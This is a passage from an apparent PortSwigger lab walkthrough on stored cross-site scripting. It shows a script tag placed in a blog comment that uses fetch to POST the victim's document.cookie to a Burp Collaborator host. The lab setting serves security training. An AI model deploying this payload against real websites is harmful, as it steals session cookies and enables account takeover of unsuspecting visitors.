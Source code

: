 To begin this lab I'll start the Collaborator and navigate over to a post on the web application and scroll down to the comment section. 

![lab1 collaborator](/docs/assets/images/portswigger/xss/exploitation/EXSS02.png)

Within the comment section I'm going to insert an XSS payload that will be stored on the web server and trigger whenever the victim user visits the comment section. 

To start I'll insert a `<script>` tag, and within it I'll utilize the `fetch` function to navigate over to the address of the burp collaborator I started. I'll make it a `POST` request and I'll send it without `Cross Origin Resource Sharing Headers`. I'll set the `body` to `document.cookie` so that the cookie of the victim viewing the page with the script is what is sent to the collaborator. Finally I'll close the `</script>` tag. 

``` 
<script> 
fetch('https://c5i2vlhphpigx1fioz9s0sgh78dz1ppe.oastify.com', { 
method: 'POST', 
mode: 'no-cors', 
body:document.cookie 
}); 
</script> 
``` 

I'll fill the rest of the fields out with random information in the required format and then submit the comment.  
